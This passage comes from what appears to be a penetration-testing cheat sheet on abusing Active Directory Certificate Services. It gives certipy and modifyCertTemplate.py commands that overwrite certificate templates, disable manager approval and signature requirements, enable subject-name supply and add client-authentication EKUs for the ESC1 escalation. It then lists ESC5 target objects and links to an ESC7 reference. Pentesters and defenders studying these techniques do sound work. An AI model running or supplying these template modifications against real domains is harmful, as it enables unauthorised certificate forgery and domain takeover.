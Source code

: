 ```bash
# Overwrite the certificate template and save the old configuration
certipy template -u 'user@contoso.local' -p 'password' -dc-ip 'DC_IP' -template templateName -save-old

# After the ESC1 attack, restore the original configuration
certipy template -u 'user@contoso.local' -p 'password' -dc-ip 'DC_IP' -template templateName -configuration 'templateName.json'
```

* Precise modification

```bash
# Query a certificate template (all attributes)
python3 modifyCertTemplate.py -template templateName contoso.local/user:pass

# Query the raw values of all template attributes
python3 modifyCertTemplate.py -template templateName -raw contoso.local/user:pass

# Query the ACL for a certificate template
python3 modifyCertTemplate.py -template templateName -get-acl contoso.local/user:pass


# Disabling Manager Approval Requirement
python3 modifyCertTemplate.py -template templateName -value 2 -property mspki-enrollment-flag contoso.local/user:pass 

# Disabling Authorized Signature Requirement
python3 modifyCertTemplate.py -template templateName -value 0 -property mspki-ra-signature contoso.local/user:pass 

# Enabling SAN Specification
python3 modifyCertTemplate.py -template templateName -add enrollee_supplies_subject -property msPKI-Certificate-Name-Flag contoso.local/user:pass 

# Editting Certificate Application Policy Extension
python3 modifyCertTemplate.py -template templateName -value "'1.3.6.1.5.5.7.3.2', '1.3.6.1.5.2.3.4'" -property mspki-certificate-application-policy contoso.local/user:pass 
```

### ESC5 : Sufficient rights against several objects

* CA server’s AD computer object (i.e., compromise through RBCD)
* The CA server’s RPC/DCOM server
* Any descendant AD object or container in the container `CN=Public Key Services,CN=Services,CN=Configuration,DC=<COMPANY>,DC=<COM>` (e.g., the Certificate Templates container, Certification Authorities container, the NTAuthCertificates object, the Enrollment Services container, etc.)

### ESC7 : Sufficient rights against the CA

* [https://ppn.snovvcrash.rocks/pentest/infrastructure/ad/ad-cs-abuse#vulnerable-ca-aces-esc7](https://ppn.snovvcrash.rocks/pentest/infrastructure/ad/ad-cs-abuse#vulnerable-ca-aces-esc7)

#### Windows
